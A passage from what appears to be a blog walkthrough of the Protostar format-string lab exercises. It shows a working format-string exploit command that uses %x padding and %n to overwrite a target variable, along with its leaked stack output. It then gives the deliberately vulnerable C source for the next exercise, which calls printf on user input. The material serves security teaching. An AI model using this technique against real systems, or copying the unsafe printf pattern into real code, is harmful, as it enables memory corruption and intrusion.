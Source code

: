 Now, we can replace "AAAA" with the address of `target` and the final `%x` with
`%n` to write to the address.

```shell
user@protostar:/opt/protostar/bin$ /opt/protostar/bin/format1 $(python -c "print '\x38\x96\x04\x08' + '%x.'*134 + '%n'")
804960c.bffff5f8.8048469.b7fd8304.b7fd7ff4.bffff5f8.8048435.bffff7dc.b7ff1040.804845b.b7fd7ff4.8048450.0.bffff678.b7eadc76.2.bffff6a4.bffff6b0.b7fe1848.bffff660.ffffffff.b7ffeff4.804824d.1.bffff660.b7ff0626.b7fffab0.b7fe1b28.b7fd7ff4.0.0.bffff678.b4f3baa6.9ea7ccb6.0.0.0.2.8048340.0.b7ff6210.b7eadb9b.b7ffeff4.2.8048340.0.8048361.804841c.2.bffff6a4.8048450.8048440.b7ff1040.bffff69c.b7fff8f8.2.bffff7c1.bffff7dc.0.bffff975.bffff983.bffff98f.bffff9b0.bffff9c3.bffff9d6.bffff9e0.bffffed0.bfffff0e.bfffff22.bfffff39.bfffff4a.bfffff52.bfffff62.bfffff6f.bfffffa3.bfffffb2.bfffffcf.0.20.b7fe2414.21.b7fe2000.10.fabfbff.6.1000.11.64.3.8048034.4.20.5.7.7.b7fe3000.8.0.9.8048340.b.3e9.c.0.d.3e9.e.3e9.17.1.19.bffff7ab.1f.bfffffe1.f.bffff7bb.0.0.0.0.0.f1000000.ddb611b5.5aeca58f.e7cb7a22.691b4515.363836.706f2f00.72702f74.736f746f.2f726174.2f6e6962.6d726f66.317461.you have modified the target :)
```

With this method of exploitation, the key is to align your input string with
the stack pointer. It is important to remember that the format string you
supply is stored on the stack as well. With `%x`, you are using 2 bytes to pop
4 bytes from the stack. There are other format string parameters you can use
as well to win the "race" if you can only provide a limited number of input
bytes.

# format 2

We are given the below source code.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);
  printf(buffer);

  if(target == 64) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %d :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```


[exploit-exercises]: https://exploit-exercises.com
[protostar-stack-writeup]: {% post_url 2018-05-22-protostar-walkthrough-stack %}
[exploiting-format-string-paper]: https://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf
[got-blog-post]: https://eli.thegreenplace.net/2011/11/03/position-independent-code-pic-in-shared-libraries/